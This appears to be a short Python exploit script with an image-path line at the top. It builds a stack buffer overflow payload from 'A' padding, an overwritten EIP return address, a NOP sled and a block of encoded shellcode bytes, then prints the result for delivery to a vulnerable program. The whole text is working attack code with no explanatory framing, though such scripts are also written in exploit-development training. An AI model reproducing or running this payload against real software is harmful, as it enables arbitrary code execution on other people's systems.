 
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"


EIP = "\x59\x3b\xde\xf7"

nop = '\x90' * 5

buf =  b""
buf += b"\xbf\x28\xdb\x66\x5f\xdb\xc3\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x11\x83\xc6\x04\x31\x7e\x0e\x03\x56"
buf += b"\xd5\x84\xaa\xcc\xe2\x10\xcc\x42\x93\xc8\xc3\x01"
buf += b"\xd2\xee\x74\xea\x97\x98\x84\x9c\x78\x3b\xec\x32"
buf += b"\x0e\x58\xbc\x22\x0d\x9f\x41\xb2\x4d\xfe\x35\x92"
buf += b"\xbe\x2e\xc5\xb7\xa3\x5c\x4c\x43\x0b\x8f\xf8\xce"
buf += b"\x21\xb6\x77\x75\xa5\x3a\x1d\x01\x07\xcb\xb9\x8b"
buf += b"\x57\x7c\x11\xc2\xb9\x4f\x15"


print(buffer + EIP + nop + buf)
